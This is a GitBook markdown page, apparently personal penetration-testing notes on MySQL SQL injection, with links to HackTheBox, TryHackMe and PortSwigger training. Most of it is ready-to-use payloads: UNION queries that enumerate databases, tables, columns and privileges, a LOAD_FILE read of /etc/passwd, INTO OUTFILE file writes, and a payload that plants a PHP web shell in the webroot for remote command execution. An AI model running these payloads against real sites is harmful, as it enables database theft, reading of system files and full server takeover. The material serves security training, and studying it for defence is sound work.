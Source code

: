 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SQLi

## Assumptions

* IIS -> MSSQL
* Apache/Nginx -> MySQL

## SQLi Types



<figure><img src="../../../.gitbook/assets/sqli_types.png" alt=""><figcaption><p>Figure 1: SQL Injection types (imaged adapted from <a href="https://www.qafox.com/sql-injection-types/">here</a>).</p></figcaption></figure>

## Detection

| Payload | URL Encoded |
| ------- | ----------- |
| `'`     | `%27`       |
| `"`     | `%22`       |
| `#`     | `%23`       |
| `;`     | `%3B`       |
| `)`     | `%29`       |

## MySQL -  UNION Attack

Appropriate when the results are returned within the application's response. Two conditions must be met:

1. The invididual queries must return the same number of columns.
   * [ ] [How many columns](sqli.md#number-of-columns) are returned from the original query?
2. The data types in each column must be compatible between the individual queries.
   * [ ] [Which columns are suitable](sqli.md#data-types) to hold the results from the injected query?

### Number of Columns

Incrementing an `ORDER BY` clause's index until it errors. The number represents the column's index; when this exceeds the number of the actual columns we will get an index-related error.

<figure><img src="../../../.gitbook/assets/lab1_sqli_test_burp.png" alt=""><figcaption><p>Figure 1: Detecting SQLi.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/lab1_orderby1_burp.png" alt=""><figcaption><p>Figure 2a: Indexing the first column.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/lab1_orderby4_burp.png" alt=""><figcaption><p>Figure 2b: Indexing the 4th column returns a server error.</p></figcaption></figure>

We can also use the `UNION SELECT NULL` payload to achieve the same goal.

<figure><img src="../../../.gitbook/assets/lab1_solved_burp.png" alt=""><figcaption><p>Figure 3: Enumerating the number of columns using UNION SELECT NULL.</p></figcaption></figure>

### Data Types

Typically the data we want to exfiltrate is in text form, thus, we must enumerate which column in the original query can hold this type of data. This can be done by passing a random string column by column until the server accepts it.

<figure><img src="../../../.gitbook/assets/lab2_datatype_pos1.png" alt=""><figcaption><p>Figure 4: Passing string data to the first column returns a server error.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/lab2_datatype_pos2.png" alt=""><figcaption><p>Figure 5: Passing string data to the second column is accepted by the server.</p></figcaption></figure>

### Basic Enumeration

{% hint style="info" %}
The `INFORMATION_SCHEMA` database contains metadata about the server databases and tables. Its `SCHEMATA` table contains information about all server databases.
{% endhint %}

{% hint style="danger" %}
The comment at the end includes a space: <mark style="background-color:red;">`--`</mark>` ``` ! The `#` `` symbol can also be used.
{% endhint %}

{% tabs %}
{% tab title="DBs" %}
<pre class="language-sql"><code class="lang-sql"><strong>a' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- 
</strong></code></pre>
{% endtab %}

{% tab title="Current DB" %}
```sql
a' UNION select 1,database(),2,3-- 
```
{% endtab %}

{% tab title="Tables" %}
<pre class="language-sql" data-overflow="wrap"><code class="lang-sql"><strong>a' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='db1'-- 
</strong></code></pre>
{% endtab %}

{% tab title="Columns" %}
{% code overflow="wrap" %}
```sql
a' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='table1'-- 
```
{% endcode %}
{% endtab %}

{% tab title="Data" %}
```sql
a' ' UNION select 1, col1, col2, 4 from db1.table1-- 
```
{% endtab %}
{% endtabs %}

### Reading Local Files

The `FILE` privilege is needed to **READ** files.&#x20;

{% tabs %}
{% tab title="User (1)" %}
<pre class="language-sql"><code class="lang-sql"><strong>a' UNION SELECT 1, user(), 3, 4-- 
</strong></code></pre>
{% endtab %}

{% tab title="User (2)" %}
<pre class="language-sql"><code class="lang-sql"><strong>a' UNION SELECT 1, user, 3, 4 from mysql.user-- 
</strong></code></pre>
{% endtab %}

{% tab title="Privileges" %}
{% code overflow="wrap" %}
```sql
a' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="user1"-- 
```
{% endcode %}
{% endtab %}

{% tab title="SUPER_PRIV" %}
```sql
a' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="user1"-- 
```
{% endtab %}

{% tab title="READ" %}
```sql
a' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- 
```
{% endtab %}
{% endtabs %}

### Writing Files

To **WRITE** files, in addition to the `FILE` privilege, the `secure_file_priv` variable must be disabled and the user must have write access to the location we want to write to.&#x20;

| SECURE\_FILE\_PRIV value | PERMISSIONS                             |
| ------------------------ | --------------------------------------- |
|                          | Read files from anywhere.               |
| random\_directory        | Only read from the specified directory. |
| NULL                     | Cannot read/write anywhere.             |

{% tabs %}
{% tab title="SECURE_FILE_PRIV" %}
{% code overflow="wrap" %}
```sql
a' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"--  
```
{% endcode %}
{% endtab %}

{% tab title="WRITE" %}
{% code overflow="wrap" %}
```sql
a' union select 1,'textToBeWritten',3,4 into outfile '/var/www/html/proof.txt'-- 
```
{% endcode %}
{% endtab %}

{% tab title="RCE" %}
{% code overflow="wrap" %}
```sql
a' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- 
```
{% endcode %}
{% endtab %}
{% endtabs %}

To write a webshell, we must know the **webroot**. We can find it is by using `load_file` to read the server configuration:

<table><thead><tr><th width="137">Server</th><th>Directory</th></tr></thead><tbody><tr><td>Apache</td><td>/etc/apache2/apache2.conf</td></tr><tr><td>Nginx</td><td>/etc/nginx/nginx.conf</td></tr><tr><td>ISS</td><td>$WinDir%\System32\Inetsrv\Config\ApplicationHost.config</td></tr></tbody></table>

## Resources

{% tabs %}
{% tab title="HTB" %}
{% embed url="https://academy.hackthebox.com/course/preview/sql-injection-fundamentals" %}
{% endtab %}

{% tab title="THM" %}
{% embed url="https://tryhackme.com/r/room/sqlinjectionlm" %}
{% endtab %}

{% tab title="PortSwigger" %}
{% embed url="https://portswigger.net/web-security/sql-injection" %}
{% endtab %}
{% endtabs %}
